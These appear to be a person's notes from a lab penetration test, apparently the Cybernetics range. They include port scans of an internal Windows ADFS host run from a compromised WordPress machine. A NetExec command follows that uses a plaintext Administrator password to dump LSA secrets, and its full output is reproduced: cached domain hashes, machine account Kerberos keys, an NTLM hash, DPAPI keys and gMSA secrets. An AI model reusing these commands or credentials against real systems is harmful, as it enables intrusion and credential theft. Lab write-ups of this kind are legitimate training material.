

Same here but seems like no success so we can move on?



New scan from inside linux wordpress machine!

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.10.11
./nmap -F 10.9.10.11

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:38 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.10.11
Host is up (0.21s latency).
Not shown: 240 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  epmap
443/tcp  open  https
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
```

Even more details after I fixed ligolo:

```
PORT      STATE SERVICE       REASON         VERSION
80/tcp    open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
443/tcp   open  https?        syn-ack ttl 64
445/tcp   open  microsoft-ds? syn-ack ttl 64
808/tcp   open  mc-nmf        syn-ack ttl 64 .NET Message Framing
1500/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
1501/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-06-14T14:34:46+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=cyadfs.cyber.local
| Issuer: commonName=cyadfs.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T09:42:12
| Not valid after:  2024-12-13T09:42:12
| MD5:   d44a:01a2:59e7:7f78:553d:1fa1:9270:46fe
| SHA-1: 73e4:4d98:dc35:ad48:ef09:0fcf:bd3a:2396:5153:dfea
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQK98THIo2AJVBaCyVczXqOzANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJjeWFkZnMuY3liZXIubG9jYWwwHhcNMjQwNjEzMDk0MjEyWhcN
| MjQxMjEzMDk0MjEyWjAdMRswGQYDVQQDExJjeWFkZnMuY3liZXIubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDIwlhHx0mAejFb0QQmOplwiaVU
| znnMM4AbVPw3jBe6johVl16ZRTgq46AkvDsALrvAKp2IoZeciEaKxgstfqadDueo
| ug4odtT3HcpvAmgkY53oQmONEI6IUQN704kemLlVyBJMslZFFhvcYG4wZVnK4/x9
| C+R8nbgigTdTzkE7t7P8LRcwDSOsZV+AZmG3jWFDuPkkaXHC1mwEU1qRX8damJwr
| 4pAO3Po7Di0qgQF/P52pMbKq/i0x3j9QaPa5hoRt++HvSNikTsPQBvGwLSfJ93/y
| Rr/cI8Hd1z0ilnnMMepVWDz3ASRWO1hffp28LEarXVmPkYFwZN2Dc1+Zo3rvAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEAlm0Gt5V3IjFIMH3uSMJDD6m5P690jKP1NyUAAgfRcDFBQicE
| NxbpFOPq/jaMmV4bU1xVH25yQ9EpoEmdQhazf3vjGtEpTv1idIJdNyMHx95sJeKy
| nO6VbURWMLSMBMUAXcT7PUntv3CUlSzurJLa6JW0OtvQQTHAII/2ta8toVHVoXRJ
| PBYI8HO99Y9/nDZqy2xaMOiee2wjMrVbv37gySmoxJSI+ML7dGMH3EYw23NvS7aA
| 3n9Q5uoSTmrnUiMHv41uSDug5m0D9rHuqrIiLKa/X6v1c9g1GTioIJTf3tZNFro4
| Iyg08mw/DKhFBw0h/e/S39mQi64ufKNulTGJcg==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49443/tcp open  unknown       syn-ack ttl 64
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49684/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
52390/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/14%OT=80%CT=%CU=%PV=Y%G=N%TM=666C5506%P=x86_64-pc-linux-gnu)
SEQ(SP=108%GCD=1%ISR=10A%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

&nbsp;

# Post Exploitation

With admin credentials I will try to dump the LSASS:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec smb 10.9.10.11 -u 'Administrator' -p '9ze9wL0C!3' --lsa
SMB         10.9.10.11      445    CYADFS           [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYADFS) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.11      445    CYADFS           [+] cyber.local\Administrator:9ze9wL0C!3 (Pwn3d!)
SMB         10.9.10.11      445    CYADFS           [+] Dumping LSA secrets
SMB         10.9.10.11      445    CYADFS           CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#c145dcbd844f88264bdd35aafd17500f: (2024-03-28 15:22:10)
SMB         10.9.10.11      445    CYADFS           CYBER.LOCAL/svc_adfs$:$DCC2$10240#svc_adfs$#2f9442b6f452406b91f9c9d507f0c874: (2024-06-19 03:23:40)
SMB         10.9.10.11      445    CYADFS           CYBER\CYADFS$:aes256-cts-hmac-sha1-96:7b39768e40944db2f8201bb98bfea336dd7a0c26d199c3d57bd5e97352072f7b
SMB         10.9.10.11      445    CYADFS           CYBER\CYADFS$:aes128-cts-hmac-sha1-96:213c671ce061e19b16dc24aa12ec8edb
SMB         10.9.10.11      445    CYADFS           CYBER\CYADFS$:des-cbc-md5:b65273ecf14aa2a7
SMB         10.9.10.11      445    CYADFS           CYBER\CYADFS$:plain_password_hex:2d0033002f003b006d0056002c003400480025003d00550021006f00350057004b00530025004a006900610040003f004200420069002e003f0058003f0059004200350044003d00770023002c006c006e002a003100220054002a00450073006e0078002a0020004000440070002d00370070006d00770076004e003000280073006300490048002d00310060004600530045006c004d00600043004f004f003d003a002c004e002b0073005600610058005d00380057006f0059002d002200270044006700220044004d003a005b0044004f005900500027002c0031003c0038006d006f004f003700270044002e00
SMB         10.9.10.11      445    CYADFS           CYBER\CYADFS$:aad3b435b51404eeaad3b435b51404ee:6cece4b8e67d3c1f639c5c118f1ddbf4:::
SMB         10.9.10.11      445    CYADFS           dpapi_machinekey:0x05d4a5ec12fdc50d1dc57c6732c746b4a1380153
dpapi_userkey:0x9ab0a49963ee3643e0489b99277e4451a6d7b72c
SMB         10.9.10.11      445    CYADFS           NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         10.9.10.11      445    CYADFS           _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_2a8396ee07a3ebacc8e02b115821ca338cdcc837fe5f900c7a37b2777a3eaa38:caf35549984df342fca74f9ab214067a07e17b3c23b17429f9692359d57e3daa22eb88d9d4a46441afdd77d00f8ebc77ce76dcc9104f87bb85472f203e28249ab98e0b1541a4dfb01de9946207c74c428cb7ed55605eb3171972211e2177317180e5a3610826f9abcf7e4eef0949126802eccf7e5ec540565d76dc79e45eb9b29f5dd61d5df4fdc3e28058487a9bb1d5011ed7baf2d61b6a0743e053b41740212b5aed9d12ddc5edb72216f3f419b8a171b77a3222385c4ca4c292714bac72502836e2ad84ee15f99be7bf6f66cd92b9c8b6c43fd892dc243321af0d88a5c15263fe5a116e1c64b5a7a2d2fd1c59f77b
SMB         10.9.10.11      445    CYADFS           _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_2a8396ee07a3ebacc8e02b115821ca338cdcc837fe5f900c7a37b2777a3eaa38:01000000240200001000120114021c0275528a0ed303f924c069a19f5ed7a1b7981493047ce86dd3aeac24576028f0eb6e30d75b59c1c465c762174e7dc72ec5821901428df65081cb350bcb1e1408fb8cd9e115d0c1eb9153820c07b3fea4d311fca03526169b42b876f91cb3c76ab382724922ef4af249f1d57773d8ac94392cc16411d073af6827412e4ef73f4082ac5df369a29fcc56c47258c31ad7c4b13b26e467291affcf7786ac64d727fafabbde31b7d2270a122ebbc75d48127e7eb955e2d16fc5cf97e5a18ddcd4d77d9087e6272612a85dc0e771d9748547c33a3f05c6fddc0320e0984c9ba5b7905ef470d8ef3eb7bac5ad70f70573c91c3a8decb809e5e11565be5ff3129648a8430000001065c97a01f9cce47492dad15b9c0e79df1d6982e2ff991dec53f9a5332ea07fa1958e253ed1099f9273e8041e554580598a018633b32fdb49e558175f596917a3b72532263ca59c55a07a0c383d1762b8bc5aea408a273d8f1c1012926e6ec4d6e40a8b20f52e4d0793924cd8be4f49a03f75d1c312b9b032daebf580f1750658396a498059dca5d3957ff8ba6e81f35b9adbe20e69bef709d76626fa3fa2fead2249f16b618dddda2d7743544a98f6536b96ed05778898519d43172bb0610b345249357b36cf7acd7d6cfad1047d65a3dc0e1dc3bc767f5ab8f9f5fa45d7c10cc1e90867876df545a132192b89a1a5e564243c6686409637f83d91fb09b840000092059987080e000092a7c8d4070e0000
SMB         10.9.10.11      445    CYADFS           GMSA ID: 2a8396ee07a3ebacc8e02b115821ca338cdcc837fe5f900c7a37b2777a3eaa38 NTLM: 276dd5372b8b4088a003f46eae04b8c9
SMB         10.9.10.11      445    CYADFS           [+] Dumped 11 LSA secrets to /root/.nxc/logs/CYADFS_10.9.10.11_2024-06-19_223000.secrets and /root/.nxc/logs/CYADFS_10.9.10.11_2024-06-19_223000.cached
```

Nothing came out so i will login instead.

But seems like no flags are here???